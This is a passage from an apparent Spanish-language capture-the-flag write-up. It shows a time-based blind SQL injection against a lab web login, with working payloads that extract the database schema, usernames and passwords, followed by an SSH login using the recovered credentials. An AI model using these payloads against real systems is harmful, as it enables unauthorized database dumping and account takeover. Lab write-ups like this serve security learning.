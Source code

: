 Lo ejecutamos logrando obtener el nombre de la base de datos basandonos en el tiempo de respuesta de la aplicacion
```bash
python3 sqli_scristal.py

[+] Iniciando ataque...
```

Tenemos el nombre de la base de datos actualmente en uso:
```bash
[+] Nombre de la base de datos: ( inicio )
```

**Nota** Ahora solo tenemos que ir modificando el **payload** para ir obteniedo la informacion:
```python
payload = f"admin' or if(substring((select group_concat(table_name SEPARATOR ',') from information_schema.tables where table_schema = 'inicio'),{position},1)='{character}', sleep(1), 0)-- -"
```

```
# Dumpeamos el nombre de la tablas para la base de datos
[+] Nombre de las tablas: ( personales )
```

Ahora dumpeamos los nombres de las columnas para esa tabla:
```python
payload = f"admin' or if(substring((select group_concat(column_name SEPARATOR ',') from information_schema.columns where table_schema = 'inicio' and table_name = 'personales'),{position},1)='{character}', sleep(1), 0)-- -"
```

Resultado:
```bash
[+] Nombre de las columnas: ( id,nombre,apellidos,correo,usuario,contrasena,token,fecha_registro )
```

Ahora nos aprovechamos de esto para enumerar nombre de usuario y contrasena
```python
payload = f"admin' or if(substring((select group_concat(usuario,0x3a,contrasena SEPARATOR ',') from inicio.personales),{position},1)='{character}', sleep(1), 0)-- -
```

Para la ultima parte tratamos la cadena final:
```python
users = extracted_data.split(", ")
print(c(f"Credenciales encontradas:", "cyan"))
for user in users:
    print(c(f"\n( - {user} )", "green"))
```

Encontramos credenciales:
```bash
Credenciales encontradas:

( - alejandrohanka,root,pinmarpi7tmy,h1h1dxhbxu,testes9aljfq )
```
### Intrusion
Ahora podemos intentar conectarnos por ssh con estos usaurios:
```bash
# Reverse shell o acceso inicial
ssh alejandro@172.17.0.2 # ( hanka )
```

---
